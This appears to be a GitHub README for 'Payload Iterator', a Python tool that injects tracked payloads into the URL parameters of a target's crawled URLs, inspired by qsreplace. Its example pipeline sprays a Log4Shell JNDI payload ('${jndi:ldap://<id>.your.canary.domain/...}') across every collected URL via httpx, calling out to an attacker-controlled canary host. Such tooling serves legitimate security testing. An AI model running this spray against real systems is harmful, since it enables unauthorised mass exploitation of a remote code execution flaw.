 # Payload Iterator
Parses known URLs via stdin, filters and populates parameter values with payloads using unique identifiers for better tracking. Similar to and inspired by [Tomnomnom](https://github.com/tomnomnom)'s [qsreplace](https://github.com/tomnomnom/qsreplace). I originally created this as a way to more effectively track sprayed Log4J payloads, but this tool could be used in many different scenarios where unique identifiers are required. 

## Usage
```
usage: payload-iterator.py [-h] -p PAYLOAD [-pr PREFIX] [-o OUTPUT] [--preserve] [-s]

Populates payloads with unique identifiers into URL GET parameters.

optional arguments:
  -h, --help            show this help message and exit
  -p PAYLOAD, --payload PAYLOAD
                        Original payload to manipulate, place <id> in the position you wish to be replaced, it will be replaced with 1 -> n
  -pr PREFIX, --prefix PREFIX
                        Prefix for the payload identifier, e.g. pay<id> will result in pay1 -> pay99999
  -o OUTPUT, --output OUTPUT
                        Output file to write to
  --preserve            Preseve other URL values, limiting to one payload per URL, keeping all other values the same as entered
  -s, --silent          Do not print to stdout
  ```
  
## Example Log4shell use case
```
getallurls -subs $target | python3 payload-iterator.py -o $target-urls.txt --payload '${jndi:ldap://<id>.your.canary.domain/test}' | httpx
```
